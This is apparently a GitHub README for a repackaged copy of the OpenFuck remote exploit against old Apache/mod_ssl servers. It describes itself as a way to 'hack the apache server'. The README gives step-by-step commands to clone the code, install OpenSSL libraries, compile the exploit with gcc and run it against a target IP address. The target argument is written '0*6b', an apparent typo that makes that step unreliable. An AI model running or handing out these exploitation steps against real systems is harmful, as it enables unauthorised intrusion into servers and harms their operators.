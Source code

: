 # Open6uck
Original Name is OpenFuck, but i changed it for some reasons.

This is an exploit to hack the apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download the below file
~~~
git clone https://github.com/Dpentester/Open6uck.git
~~~
2. Install libssl-dev (or) libssl1.0-dev
~~~
apt install libssl-dev
apt install libssl1.0-dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
